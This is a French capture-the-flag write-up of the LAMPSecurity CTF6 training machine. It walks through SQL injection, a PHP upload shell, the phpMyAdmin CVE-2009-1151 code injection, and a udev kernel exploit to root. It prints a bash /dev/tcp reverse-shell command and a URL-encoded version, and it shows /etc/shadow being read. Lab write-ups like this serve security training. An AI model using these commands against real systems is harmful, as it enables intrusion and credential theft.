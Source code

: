 # LAMPSecurity: CTF6

## Détails de la machine

**Nom :** LAMPSecurity: CTF6\
**Date de sortie :** 29 Juin 2009\
**Lien de téléchargement :** [http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity\_ctf6.zip/download](http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity\_ctf6.zip/download)\
**Niveau :** Facile\
**Objectif(s) :** obtenir un "root"\
**Description :**`The LAMPSecurity project is an effort to produce training and benchmarking tools that can be used to educate information security professionals and test products. Please note there are other capture the flag exercises (not just the latest one). Check the SourceForge site to find other exercises available (http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/).`\
`These exercises can be used for training purposes by following this documentation. Alternatively you may wish to test new tools, using the CTF virtual machines as targets. This is especially helpful in evaluating the effectiveness of vulnerability discovery or penetration testing tools.`

## Reconnaissance

Votre cible, si vous l'acceptez sera désignée par `netdiscovery` :

![](../../../.gitbook/assets/01b81fb29800416a48b95b8bf4067734.png)

On scanne les services de la belle, comme d'habitude avec `nmap` :

![](../../../.gitbook/assets/0d2df19ee103a6d59c16b63c2414b097.png)

Rien de très particulier ici, du SSH, un serveur web, un service MySQL sur le port 3306. A noter tout de même un serveur web sur le port 443.

### Serveur HTTP (port 80)

Tout en commençant la reconnaissance manuelle on peut tout de suite lancer un `nikto` dont voici les résultats :

![](../../../.gitbook/assets/5bb8c42e703fa254522f24bf8e9ef5f2.png)

Plusieurs URLs intéressants à ne pas oublier de visiter après notre petite reconnaissance :

* /files
* /lib
* /mail
* /phpmyadmin
* /sql

La page d'accueil du serveur HTTP présente la page d'un revendeur de widgets. On remarque bien évidemment les quelques messages postés par l'utilisateur "admin", un lien vers un webmail, des informations sur les technologies utilisées (PHP, MySQL, CenOS) et pour terminer des noms/prénoms du staff :

![](../../../.gitbook/assets/77b6af492db3c6a94a786f674f5a3463.png)

Ni une ni deux, l'injection SQL présente au niveau du paramètre "id" permettant d'identifier un billet :

![](../../../.gitbook/assets/f92bbcc2d2a54032c51cad3570a710b7.png)

Les différentes URLs sont intéressantes mais sans doute facultatives : on y retrouve un script SQL qui permet de connaitre des informations sur la base de données (mais bon on va pas se mentir `sqlmap` en aura pas besoin), un répertoire d'images, le phpMyAdmin ou encore le client mail.

#### phpMyAdmin

Le phpMyAdmin disponible sur le serveur est une version 3.0.0. Il est possible de savoir cela en allant vérifier l'URL http://192.168.1.29/phpmyadmin/README. Cette version est vulnérable à une RCE :

![](../../../.gitbook/assets/906bd4b1971cd3b24146d53e51a32111.png)

### Serveur HTTP (port 443)

Il s'agit en fait du même si que celui présent sur le port 80, déçu :disappointed: .

## Exploitation

### Injection SQL

Ici on ne s'embête pas, `sqlmap` à la rescousse. Il y a deux bases intéressantes, la base "cms" qui correspond au site web, ainsi que la base "roundcube" qui correspond au webmail :

![](../../../.gitbook/assets/e03d1b4b831468edb37511112361e8de.png)

Pas de mot de passe de disponible dans la table "users" de la base de données "roundcube", mais on récupère à la place le mot de passe de mysql :

![](../../../.gitbook/assets/84c1dc7adcaefe8bfcfcdfa9d6102cb6.png)

### Injection de code

On s'authentifie grâce à notre compte fraîchement récupéré, puis nous voyons qu'il est possible d'ajouter un événement via le bouton "Add Event". Sans le moindre effort apparaît déjà deux XSS stockées grâce au champ "Titre" et "Description" :

{% hint style="warning" %}
`Ma machine ayant plantée à ce moment dû à un effet kiss kool ayant une origine inconnue, l'IP de la victime devient maintenant 192.168.1.30`
{% endhint %}

On continue avec l'option de joindre un fichier avec l’événement (ici qui contient un script PHP appelant la méthode `phpinfo()`) :

![](../../../.gitbook/assets/894c71013775256a8a0b8b4b83816b80.png)

Il suffit ensuite d'aller directement sur le lien de l'image et :

![](../../../.gitbook/assets/59c2f02d7b413d2a39e0aba08583bc3d.png)

Vous désirez bien un peu de `msfvenom` ensuite ?

![](../../../.gitbook/assets/29b9c5598bb7347964faa9cde9fe5d6b.png)

Nous voici dans la place avec notre shell limité :

![](../../../.gitbook/assets/7658ea9a3c18402e3e64b74f31c045b5.png)

### PhpMyAdmin (CVE-2009-1151)

Etant donné que nous avions déjà identifié l'injection de code au niveau du phpMyAdmin, je me suis amusé à l'exploiter également. Il suffit tout d'abord d'exécuter l'exploit "8921.sh" disponible, puis de renseigner l'URL suivante avec la commande désirée :

![](../../../.gitbook/assets/5a42613d2a939a338918aa8fd4338fc7.png)

J'ai légèrement galéré pour récupérer un shell propre, car netcat ne semblait pas passer. J'ai alors utilisé `bash` avec la commande suivante : `bash -i >& /dev/tcp/adresse_ip/port 0<&1` :

Pour cela que cela fonctionne via le navigateur j'ai tout d'abord encodé le tout en encodage URL soit :\
c=%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%31%30%33%2f%35%35%35%35%20%30%3e%26%31 :

![](../../../.gitbook/assets/b72bd4009a7cff516bf1eb8721e34099.png)

Côté Kali un simple `netcat` en écoute et lors de l'exécution de l'exploit :

![](../../../.gitbook/assets/9b54071bf95d65cd25cf302301f3610d.png)

## Élévation de privilèges

On récupère la version du noyau afin de voir s'il est possible de l'exploiter :

![](../../../.gitbook/assets/ae79dd5de8576224129892d479c3555d.png)

Bonne nouvelle, une recherche sous Google nous indique que la version 2.6 de Linux est vulnérable à la CVE-2009-1185. Il s'agit en fait d'une vulnérabilité du gestionnaire de périphériques udev qui accepte des messages NETLINK de la part des utilisateurs locaux alors qu'il ne devrait les accepter seulement s'ils proviennent de l'espace noyau. On récupère donc l'exploit ([https://www.exploit-db.com/exploits/8478](https://www.exploit-db.com/exploits/8478)) puis on l'exécute :

![](../../../.gitbook/assets/770fdc869b87171154e9bb6fa46196f1.png)

Nous sommes "root", travail terminé

## Conclusion

Cette machine suit les mêmes règles que ces petites sœurs, et cela nous va très bien. Rien de très difficile à part l'exploit qui est un peu capricieux. Une fois "root" j'ai récupéré le fichier "/etc/shadow" afin de voir si certains mots de passe étaient guessable ou bruteforcable par exemple (dans le cas où on serait passé à côté de la faille web) :

![](../../../.gitbook/assets/81f6ff36c457303f43ed188bb1ee9946.png)

Certains comptes étaient donc bruteforcables car les mots de passe étaient présents dans le dictionnaire "rockyou.txt".

